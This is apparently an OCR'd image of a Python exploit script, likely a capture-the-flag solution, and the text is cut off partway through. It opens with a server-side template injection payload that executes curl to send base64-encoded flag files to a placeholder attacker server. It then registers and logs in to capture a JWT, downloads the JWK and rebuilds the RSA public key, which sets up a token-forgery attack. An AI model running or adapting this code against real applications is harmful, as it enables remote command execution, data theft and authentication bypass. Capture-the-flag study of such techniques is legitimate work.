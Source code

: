 ```python
SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

# Register a new user
def register_user(username, password):
    print(f"[*] Attempting to register user: {username}")
    response = requests.post(
        REGISTER_URL, data={"username": username, "password": password})

    if response.status_code == 200:
        print(f"[*] Registered user: {username}")
    else:
        print(f"[!] Failed to register user: {response.text}")
    return response.status_code == 200

# Login to get JWT
def login_user(username, password):
    session = requests.Session()
    print(f"[*] Attempting to login user: {username}")
    response = session.post(
        LOGIN_URL, data={"username": username, "password": password})

    if response.status_code == 303:
        response = session.get(BASE_URL)

    token = session.cookies.get("token")
    if token:
        print(f"[*] Retrieved JWT: {token}")
    else:
        print(f"[!] Failed to retrieve JWT")
    return token

# Download the JWK (public key)
def download_jwk():
    print(f"[*] Attempting to download JWK...")
    response = requests.get(JWK_URL)

    if response.status_code == 200:
        print("[*] JWK download successful")
        print(f"[*] JWK Response: {response.json()}")
        return response.json()['keys'][0]
    else:
        print(f"[!] Failed to download JWK: {response.text}")
        return None

# Recreate the RSA public key from JWK components (n and e) and save it to a file
def rsa_public_key_from_jwk(jwk):
    print(f"[*] Recreating RSA Public Key from JWK...")

    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))

    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')

    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')

    # Save the public key to a file with a newline at the end
    with open("recovered_public.key", "wb") as f:
```